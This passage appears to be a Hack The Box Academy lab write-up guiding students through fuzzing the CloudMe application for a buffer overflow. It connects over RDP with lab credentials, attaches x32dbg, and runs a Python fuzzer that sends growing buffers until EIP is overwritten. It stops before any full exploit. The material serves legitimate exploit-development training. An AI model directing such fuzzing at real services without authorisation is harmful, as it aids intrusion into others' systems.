 ```
┌─[us-academy-1]─[10.10.14.27]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ xfreerdp /v:10.129.43.22 /u:htb-student /p:Academy_student!

[12:19:05:274] [2266:2268] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[12:19:05:275] [2266:2268] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[12:19:05:275] [2266:2268] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[12:19:05:275] [2266:2268] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[12:19:05:594] [2266:2268] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized
<SNIP>
```

Students then need to run the `CloudMe` program found in the Desktop directory:

![[HTB Solutions/Others/z. images/b895ee36dbbe6aa58335134f3385fc3e_MD5.jpg]]

![[HTB Solutions/Others/z. images/7c82aad9142ce1c5197490c249d2454f_MD5.jpg]]

Then, students need to run `x32dbg` and attach to the process named `CloudMe`:

![[HTB Solutions/Others/z. images/8a1072da056ec79a74649b885d35eab6_MD5.jpg]]

Subsequently, students need to write the Python script that will gradually fuzz `CloudMe` and save it with any name (such as "RemoteBOExploit.py") on the Desktop directory:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 8888

def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A" * i
            print(f"Fuzzing {i} bytes")
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            breakpoint()
            s.close()
    except:
		print("Could not establish a connection")
fuzz()
```

![[HTB Solutions/Others/z. images/9eb0b0f2814bdcc88769dca4067b8871_MD5.jpg]]

At last, students need to open side-by-side `x32dbg` and the Python script, and whenever prompted with "(Pdb)", they need to provide the letter `c` as input then press `Enter`, until `x32dbg` shows that the program crashed and the `EIP` register is overwritten with `A` characters:
